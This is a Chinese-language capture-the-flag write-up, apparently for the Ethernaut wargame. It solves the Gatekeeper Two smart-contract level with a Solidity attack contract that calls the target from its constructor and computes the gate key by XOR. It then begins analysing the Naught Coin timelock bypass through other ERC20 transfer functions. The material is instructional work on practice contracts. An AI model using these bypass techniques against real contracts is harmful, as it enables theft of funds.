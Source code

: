 观察其核心代码，依旧是`gateOne`、`gateTwo`和`gateThree`。

- `gateOne`依旧是要求`msg.sender != tx.origin`，即必须有一个中间合约。
- `gateTwo`要求`extcodesize(caller())==0`，即调用者（对应msg.sender）的关联代码长度为0，而我们知道，智能合约代码是不为0的。
- `gateThree`则要求输入对应的bytes8满足相应的要求。

乍一看似乎`gateOne`和`gateTwo`无法同时满足，但是可以考虑到，当合约正在构建时，其关联代码也是为0的。所以我们可以在构建函数里发起攻击。

## 攻击合约编写
我们同样在remix里编写攻击合约。如下：

```
pragma solidity ^0.6.0;

interface Gate {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract attackerSupporter {

    constructor(address addr) public {
        Gate gateImpl = Gate(addr);
        bytes8 input = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1));
        gateImpl.enter(input);
    }
}
```
值得注意的是，我们这里针对`gateThree`使用了主动下溢出获取全为1的`uint64`（两次异或就消失了）。

## 合约交互
部署合约，传入目标合约`0xc2F1c976Bc795C43F7C9B56Ab69d5c06Daa7d53F`，构建合约的地址为`0xE0CCEeA724E2eF32A573348975538DEf0eeBC74f`。

部署成功后，利用`await contract.entrant() == player`查看是否攻击成功。答案是成功的。

![await contract.entrant() == player](https://img-blog.csdnimg.cn/a77885e5b08f4a0f8845994a7b813784.png#pic_center)
提交实例，本关卡成功！
![关卡成功](https://img-blog.csdnimg.cn/a49621f4152245eab2219de55f2fa709.png#pic_center)
## 总结
那该如何保证不处理智能合约发来的请求呢？`msg.sender=tx.origin`即可。
<hr>

# 15 Naught Coin
## 创建实例并分析
根据先前的步骤，创建合约实例，其合约地址为`0x30A758458135a40eA5c59c7F171Fd6FFe08e00c2`。本关卡的目的是将自身的余额变为0。

乍一看合约，对`player`存在如下限制：
```
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
```
似乎是无法绕过的，我们似乎也无法通过合约进攻，因为默认是扣去自身的token。
但有一看，`NaughCoin`是继承`ERC20`，而我们知道`ERC20`中可不只一个转账函数。我们可以试试通过其他方法。
